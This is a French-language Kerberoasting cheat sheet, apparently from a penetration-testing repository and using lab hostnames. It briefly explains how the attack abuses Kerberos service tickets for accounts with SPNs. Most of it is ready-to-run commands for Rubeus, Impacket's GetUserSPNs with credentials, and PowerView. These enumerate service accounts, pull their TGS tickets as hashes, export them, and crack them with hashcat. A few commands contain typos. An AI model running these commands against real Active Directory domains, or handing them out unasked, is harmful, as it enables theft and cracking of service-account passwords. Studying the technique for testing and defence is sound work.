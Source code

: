 Le Kerberoasting est une technique d’attaque sophistiquée post-exploitation qui cible les comptes de service au sein des environnements Active Directory en exploitant les vulnérabilités du protocole d’authentification Kerberos. Cette attaque basée sur l’identité permet aux acteurs malveillants d’obtenir les hachages de mots de passe des comptes Active Directory associés aux noms principaux de service (SPNs), qui peuvent ensuite être crackés hors ligne pour révéler les identifiants en texte clair.
Lorsqu'un utilisateur demande un ticket de service (TS) au KDC (centre de distribution de clés), il doit envoyer un TGT (ticket d'octroi de ticket) valide et le nom `sname`du service souhaité ( ). Si le TGT est valide et que le service existe, le KDC lui envoie le TS.
# Comment fonctionne le kerberoasting 
Une attaque Kerberoasting se déroule en plusieurs phases distinctes, commençant par un accès initial au réseau et se terminant par l’extraction des mots de passe. L’attaque débute lorsqu’un acteur malveillant obtient l’accès à n’importe quel compte d’utilisateur authentifié dans le domaine. À partir de ce point d’accès, l’attaquant identifie les comptes de service avec des SPN, qui deviennent les cibles principales de l’exploitation.
#### Séquence de l’attaque :

- **Accès initial** : Obtenir les identifiants pour un compte d’utilisateur dans le domaine
- **Reconnaissance** : Énumérer les comptes de service avec des SPN
- **Demande TGS** : Demander des tickets de service au contrôleur de domaine
- **Extraction du ticket** : Capturer les tickets TGS cryptés à l’aide d’outils comme Rubeus ou Mimikatz
- **Crackage hors ligne** : Tenter de cracker les mots de passe des comptes de service
## outils 
[GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) 
[Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)

Kerberoasting avec Rubeus 

```
Rubeus.exe kerberoast
```

Maintenant, craquez ce hachage

```
hashcat -m 13100 -a 0 hash.txt Pass.txt
```

Kerberosting avec Impacket 

Lister des comptes SPN 

```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```


```
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.3.141 -request
```

## Kerberoasting - Exécution de l'attaque

Selon votre position dans un réseau, cette attaque peut être réalisée de plusieurs manières :

- À partir d'un hôte Linux non joint à un domaine utilisant des informations d'identification d'utilisateur de domaine valides.
- À partir d'un hôte Linux joint à un domaine en tant que root après avoir récupéré le fichier keytab.
- À partir d’un hôte Windows joint à un domaine authentifié en tant qu’utilisateur de domaine.
- À partir d’un hôte Windows joint à un domaine avec un shell dans le contexte d’un compte de domaine.
- En tant que SYSTÈME sur un hôte Windows joint à un domaine.
- À partir d'un hôte Windows non joint à un domaine à l'aide [de runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\)) /netonly.
Les SPN sont des identifiants uniques utilisés par Kerberos pour associer une instance de service à un compte de service dans le contexte duquel le service est exécuté.

### kerberosting avec PowerView 


```
import-Module .\powerView.ps1
Get-DomainUser* -spn | select samaccountname
```

À partir de là, nous pourrions cibler un utilisateur spécifique et récupérer le ticket TGS au format Hashcat.

```
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

Exporter tous les tickets vers un fichier CSV

```
et-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```